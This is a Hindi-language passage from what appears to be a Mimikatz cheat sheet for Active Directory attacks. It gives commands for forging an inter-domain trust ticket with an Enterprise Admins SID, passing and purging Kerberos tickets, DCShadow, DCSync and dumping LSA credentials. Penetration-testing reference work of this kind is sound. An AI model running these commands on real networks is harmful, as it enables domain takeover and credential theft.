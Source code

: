 Trust Tickets का उपयोग डोमेन के बीच संसाधनों तक पहुँचने के लिए विश्वास संबंधों का लाभ उठाने के लिए किया जाता है। मुख्य कमांड और पैरामीटर:

- Command: Golden Ticket के समान लेकिन विश्वास संबंधों के लिए।
- Parameters:
- `/target`: लक्षित डोमेन का FQDN।
- `/rc4`: ट्रस्ट खाते के लिए NTLM हैश।

Example:
```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```
### अतिरिक्त केर्बेरोस कमांड

- **टिकटों की सूची**:

- कमांड: `kerberos::list`
- वर्तमान उपयोगकर्ता सत्र के लिए सभी केर्बेरोस टिकटों की सूची बनाता है।

- **कैश पास करें**:

- कमांड: `kerberos::ptc`
- कैश फ़ाइलों से केर्बेरोस टिकटों को इंजेक्ट करता है।
- उदाहरण: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **टिकट पास करें**:

- कमांड: `kerberos::ptt`
- किसी अन्य सत्र में केर्बेरोस टिकट का उपयोग करने की अनुमति देता है।
- उदाहरण: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **टिकट हटाएं**:
- कमांड: `kerberos::purge`
- सत्र से सभी केर्बेरोस टिकटों को साफ करता है।
- संघर्ष से बचने के लिए टिकट हेरफेर कमांड का उपयोग करने से पहले उपयोगी।

### सक्रिय निर्देशिका छेड़छाड़

- **DCShadow**: AD ऑब्जेक्ट हेरफेर के लिए एक मशीन को अस्थायी रूप से DC के रूप में कार्य करने के लिए बनाएं।

- `mimikatz "lsadump::dcshadow /object:targetObject /attribute:attributeName /value:newValue" exit`

- **DCSync**: पासवर्ड डेटा का अनुरोध करने के लिए एक DC की नकल करें।
- `mimikatz "lsadump::dcsync /user:targetUser /domain:targetDomain" exit`

### क्रेडेंशियल एक्सेस

- **LSADUMP::LSA**: LSA से क्रेडेंशियल निकालें।

- `mimikatz "lsadump::lsa /inject" exit`

- **LSADUMP::NetSync**: एक कंप्यूटर खाते के पासवर्ड डेटा का उपयोग करके DC का अनुकरण करें।

- _NetSync के लिए मूल संदर्भ में कोई विशिष्ट कमांड प्रदान नहीं की गई है।_
